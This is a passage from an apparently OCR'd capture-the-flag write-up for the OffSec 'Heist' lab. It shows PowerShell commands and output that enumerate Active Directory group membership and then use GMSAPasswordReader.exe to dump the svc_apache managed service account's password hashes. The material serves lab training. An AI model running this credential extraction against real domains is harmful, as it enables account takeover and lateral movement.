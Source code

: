```powershell
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web 
                                             Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      : 

```

Here can see the user `svc_apache` is the part of `Web Admins`.

### Get AD Group Member 

```powershell
PS C:\users\enox> Get-ADGroupMember 'Web Admins'

distinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
name              : Naqi
objectClass       : user
objectGUID        : 82c847e5-1db7-4c00-8b06-882efb4efc6f
SamAccountName    : enox
SID               : S-1-5-21-537427935-490066102-1511301751-1103
```

### Use `GMSAPasswordReader.exe` to get the user `svc_apache` password.

```powershell
PS C:\users\enox> .\GMSAPasswordReader.exe --accountname "svc_apache"
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 009E42B78BF6CEA5F5C067B32B99FCA6
[*]       aes128_cts_hmac_sha1 : 39ABE20822B461D6FF8BA40374899406
[*]       aes256_cts_hmac_sha1 : 9160C18DAF928932F87487A84AEF32C37A712E4CF78CF77E394EE5B0E1263F73
[*]       des_cbc_md5          : 646BC71F197F13B5

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 654D2E4EBE552389CD0FD7414DE561C0
[*]       aes128_cts_hmac_sha1 : ADA6CDA0AB0C87301498657B27B9F3A0
[*]       aes256_cts_hmac_sha1 : EC93BFFB04886466DD4EC13C35FA2185C5A61B009179F012B787B6E24B2F185A
[*]       des_cbc_md5          : 9E340723700454E9

PS C:\users\enox> 

```
